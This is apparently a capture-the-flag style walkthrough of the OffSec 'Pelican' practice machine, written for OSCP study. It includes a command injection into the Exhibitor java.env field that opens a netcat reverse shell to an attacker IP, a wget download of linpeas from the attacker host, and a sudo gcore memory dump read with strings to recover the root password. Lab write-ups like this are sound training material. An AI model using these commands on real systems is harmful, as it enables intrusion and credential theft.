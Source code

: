 ```yaml
---
title: Pelican
date: 2024-01-05
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Linux
  - Intermediate
---
```


![info](./info.png)

# Recon
Make an entry for the machine's IP in `/etc/hosts` file. My entry looks like:
```
192.168.232.98	pelican.offsec
```

## Nmap
```
nmap -p- --open -sC -sV pelican.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible. Runs scripts on these ports only.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.

![nmap](./nmap.png)

The nmap scan shows two http ports on 8080 and 8081
- on port 8080, there is a 404 error
- port 8081 redirects to port 8080 revealing a web application

![pelican](./pelican.png)

# Foothold 
First, we can see if there are any public exploits on exploitdb for the exhibitor application using searchsploit
![searchsploit](./searchsploit.png)
- we can download this result with `searchsploit -m java/webapps/48654.txt`

Reading this txt file shows the following steps to gain a foothold
![foothold-steps](./foothold-steps.png)
- the command is a simple reverse shell using netcat
```
$(/bin/nc -e /bin/sh <LHOST> <LPORT> &)
```
Breaking down the command:
- `/bin/nc`: This is the netcat command, a networking utility that can be used to create network connections
- `-e /bin/sh`: This option tells netcat to execute the specified command (`/bin/sh`) after establishing a connection
- `&`: This puts the command in the background, allowing the user to continue using the terminal while the connection is active
- `LHOST` represents the local machine's IP address (attacker IP)
- `LPORT` represents the local machine's port number (attacker port) that the listener will be using

My LHOST is `192.168.45.202` and LPORT that I will be using for my listener is `1234`

## Steps
**In my case, I completed the following steps to gain a foothold**
1. Click on config tab, then, enable the editing switch
2. In the `java.env script` field, replace the contents with `$(/bin/nc -e /bin/sh 192.168.45.202 1234 &)`
3. Start a netcat listener on port 1234 using `nc -lnvp 1234` on my kali attacker machine
4. Click Commit -> All At Once -> Ok
5. Wait for the callback

![foothold](./foothold.png)

We now have a foothold as user charles

# Privilege Escalation
We can upgrade this low level shell with the following steps
```
python -c ‘import pty;pty.spawn(“/bin/bash”);’
export TERM=xterm
Ctrl + z
stty raw -echo ; fg
reset
```
## Check for sudo commands
One of the first commands to check for user privileges includes `sudo -l`
- the `sudo -l` command is used to list the allowed commands that a user can execute with sudo privileges

![escalation-enum](./escalation-enum.png)

Searching the command `gcore` on [GTFOBins](https://gtfobins.github.io/gtfobins/gcore/) reveals the following
- `gcore` generates core dumps of running processes
	- files that contain sensitive information like passwords, cryptographic keys etc.
- the binary does not drop elevated privileges and can be used to access the file system using a `$PID` which is a process ID 

## Linpeas
Running linpeas will allow us to see all processes and their respective ID's 
- start a python listener using `python3 -m http.server 80` on the kali machine in the directory with `linpeas.sh`
- the curl command isn't present on the machine, so use wget
```
wget http://<LHOST>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

After running linpeas, we can look at the specific services as that is the focus of our enumeration
![process-id](./process-id.png)
- the process ID 493 looks promising
- try to dump this process ID using the `gcore` command

Running the command shows you the usage details
![gcore](./gcore.png)

The final command looks like:
```
sudo gcore -o <outputfile> 493
```
- note: the process id may be different on your machine instance

The output file is not readable when using `nano` to view the contents
![output-process](./output-process.png)

However, we can try to extract printable character sequences from binary files using the `strings` command
- looking through the output of the strings command shows the password for the root user

```
strings <outputfile>
```
![root-pass](./root-pass.png)

Use this password and switch to the root user
![proof](./proof.png)

# Summary
By using a netcat command to spawn a bash reverse shell, we were able to gain a foothold as the user charles. Then, we looked at the commands available to the user with `sudo -l` and further enhanced our process enumeration with linpeas. Dumping the contents of the process with gcore and running strings on the dump file of the suspicious process, we were able to grab the root user password. 

Join me for the next machine soon for more exciting challenges and security insights!

+20 points
